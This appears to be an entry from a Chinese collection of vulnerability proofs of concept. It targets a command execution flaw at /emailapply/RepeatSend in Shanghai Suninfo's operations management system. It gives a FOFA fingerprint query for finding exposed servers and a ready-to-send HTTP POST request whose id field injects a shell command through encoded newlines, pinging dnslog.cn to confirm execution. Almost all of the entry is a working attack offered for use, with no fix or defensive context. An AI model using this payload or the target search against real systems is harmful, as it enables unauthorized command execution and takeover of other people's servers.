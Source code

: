 ## 上讯信息技术股份有限公司运维管理系统RepeatSend存在命令执行漏洞

上海上讯信息技术股份有限公司运维管理系统 `/emailapply/RepeatSend`存在命令执行漏洞，获取服务器权限。

## fofa

```
body="default/getloginhtml"
```

## poc

```yaml
POST /emailapply/RepeatSend HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.850.86 Safari/537.36

id='%0aping dnslog.cn%0a'
```

